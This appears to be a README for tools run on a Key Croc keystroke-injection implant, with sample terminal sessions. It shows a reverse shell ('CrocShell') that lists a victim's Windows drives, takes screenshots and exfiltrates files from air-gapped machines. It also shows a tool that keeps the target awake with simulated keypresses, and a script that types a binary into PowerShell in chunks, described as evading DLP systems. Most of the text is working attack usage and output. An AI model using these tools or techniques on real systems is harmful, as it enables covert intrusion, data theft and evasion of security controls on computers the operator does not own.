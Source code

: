 # Key Croc Tools

### Croc Shell

Allows the Croc to establish a reverse-shell on air-gapped systems. The Croc will act in `ATTACKMODE HID STORAGE` to collect the output of the commands and loot.

	root@croc:~# python udisk/tools/crocshell_via_storage.py 
	Starting the shell ...
	CrocSHELL> D:

	CrocSHELL> ls
	Verzeichnis: D:\


	Mode                 LastWriteTime         Length Name                                        
	----                 -------------         ------ ----                                        
	d-----        19.01.2023     09:32                000_BreachCompilation                       
	d-----        03.12.2022     22:36                3CX                                         
	d-----        26.01.2022     08:09                Blog                                        
	d-----        03.04.2022     12:26                Combs_1                                     
	d-----        25.01.2022     15:29                DFL                                         
	d-----        26.01.2022     00:30                DFLTask                                     
	d-----        10.02.2022     13:39                Honor 8S                                    
	d-----        23.10.2016     08:52                plaso-1.5.1                                 
	d-----        26.01.2022     07:53                ZZZ_FONTS                                   
	-a----        04.05.2023     09:57         487556 173.jpg                                     
	-a----        04.05.2023     10:12         206541 173.mp3                                     
	-a----        04.05.2023     13:44        1415029 173.mp4                                     
	-a----        25.01.2023     20:11           5050 banner.txt                                  
	-a----        17.02.2022     14:08     1994995712 paladin_edge_64.iso                         
	-a----        03.07.2022     09:27        1577592 WordRepair.exe                              
	CrocSHELL> L:

	CrocSHELL> ls
	Verzeichnis: L:\


	Mode                 LastWriteTime         Length Name                                        
	----                 -------------         ------ ----                                        
	d-----        14.07.2021     12:14                CDFE                                        
	d-----        12.01.2022     16:12                CDFP                                        
	d-----        13.08.2020     08:33                DFL Manuals                                 
	d-----        20.03.2020     14:01                JPG_Hi_Res                                  
	d-----        10.06.2021     18:38                PaWASP                                      
	d-----        11.02.2023     13:50                UnFOUNDchk                                  
	------        21.08.2021     20:06         126205 20210821_200626_FLASH_25010.dat.gz          
	------        20.10.2020     15:35          90539 5c21487e-3812-4498-b66a-eafe679bc4c8.jpg    
	------        01.04.2021     11:16         144368 7a39a04273-9fc4-4e18-b256-9c489b9c6a1c.jpeg 
	------        01.04.2021     11:16         128311 7a61adbd-8e52-4bad-9203-fc842d4069d2.jpeg   
	------        04.11.2020     18:52         627966 hddsuperclone_2.2.18-1_amd64.deb            
	------        27.04.2023     15:33          70553 PawnP1_01.png                               
	------        27.04.2023     15:51          19861 Pawnp1_02.png                               

	CrocSHELL> peek
	E:\screenshot_5.jpg ... saved

	CrocSHELL> exfil PawnP1_01.png

	CrocSHELL> help

	AVIALABLE COMMANDS:
	--------------------
	exit .... End shell 
	exfil ... Exfiltrate file - e.g.: exfil my_secret_passwords.docx
	peek .... Take a screenshot

	CrocSHELL> exit
	root@croc:~# 

### Prevent the system to go to sleep

Sends a `SHIFT` keypress each 50 seconds if there is no keyboard activity

	root@croc:~# python udisk/tools/prevent_sleep.py 
	Sending SHIFT keypress for the 1. time!
	Sending SHIFT keypress for the 2. time!
	...
	Sending SHIFT keypress for the 897. time!
	^C
	root@croc:~#

You can also run the command in background and log out 

	root@croc:~# python udisk/tools/prevent_sleep.py &
	[1] 9219
	root@croc:~#

### Upload files without network or storage interactions

This allow you to upload a file without triggering many DLP systems

	root@croc:~/udisk/tools# python fileupload_via_quack.py bob.exe "D:\Z1.exe"
	OPENING powershell.exe
	SENDING CHUNK 1 / 481 ... DONE
	SENDING CHUNK 2 / 481 ... DONE
	...
	SENDING CHUNK 481 / 481 ... DONE
	DONE IN 1727.92612386 SEC.